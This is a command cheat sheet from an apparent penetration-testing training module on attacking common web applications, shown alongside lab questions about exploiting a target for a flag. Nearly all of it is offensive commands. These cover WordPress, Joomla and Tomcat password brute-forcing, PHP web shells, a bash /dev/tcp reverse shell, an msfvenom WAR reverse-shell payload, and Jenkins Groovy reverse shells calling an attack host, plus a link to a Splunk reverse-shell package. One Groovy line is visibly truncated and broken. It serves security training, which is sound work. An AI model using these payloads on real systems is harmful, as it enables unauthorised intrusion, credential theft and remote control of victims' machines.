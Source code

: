 # Cheat Sheet

/ 1 spawns left

Waiting to start...

**Questions**

Answer the question(s) below to complete this Section and earn cubes!

Target: Click here to spawn the target system!\


\+ 1 What vulnerable application is running?+ 1 What port is this application running on?+ 1 What version of the application is in use?+ 1 Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.

**Table of Contents**

**Setting the Stage**

**Content Management Systems (CMS)**

**Servlet Containers/Software Development**

**Infrastructure/Network Monitoring Tools**

**Customer Service Mgmt & Configuration Management**

**Common Gateway Interfaces**

**Thick Client Applications**

**Miscellaneous Applications**

**Closing Out**

**Skills Assessments**

**My Workstation**

OFFLINE

/ 1 spawns left

&#x20; **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

| Command                                                                                                                                                                                                                                       | Description                                                                                                                                                                                                                    |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                                                                                                                                                                                                         | Opens the `/etc/hosts` with `vim` to start adding hostnames                                                                                                                                                                    |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list`                                                                                                                                                       | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`)                                                                       |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>`                                                                                                                                                                       | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`)                                                                                                                  |
| `cat web_discovery.xml \| ./aquatone -nmap`                                                                                                                                                                                                   | Concatenates the contents of nmap scan output (web\_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`)                                           |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate`                                                                                                                                                                                | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge                                                                                                               |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>`                                                                                                                 | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`)                                                           |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id`                                                                                                                                                                        | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell                                                                                                                         |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");`                                                                                                                                          | PHP code that will execute a reverse shell on a Linux-based system                                                                                                                                                             |
| `droopescan scan joomla --url http://<domainnameoripaddress>`                                                                                                                                                                                 | Runs `droopescan` against a joomla site located at the specified url                                                                                                                                                           |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>`                                                             | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`)                 |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>`                                                                                                                                                                                 | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browisng to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"`                                                                                                                  | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target                                                                                                                                      |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`                                                                                                                         | `gobuster` powered directory brute forcing attack refrencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`)                                                                                        |
| `auxiliary/scanner/http/tomcat_mgr_login`                                                                                                                                                                                                     | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site                                                                                                                               |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr\_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`)    |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war`                                                                                                      | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom`                                                                                                                                    |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>`                                                                                                                                                                             | Nmap scan useful in enumerating Apache Tomcat and AJP services                                                                                                                                                                 |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`                                                                    | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux                                                                 |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");`                                                                                                                                                                               | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system                                |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);`                                                                                         | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows                                                                 |
| [reverse\_shell\_splunk](https://github.com/0xjpuff/reverse\_shell\_splunk)                                                                                                                                                                   | A simple Splunk package for obtaining revershells on Windows and Linux systems                                                                                                                                                 |
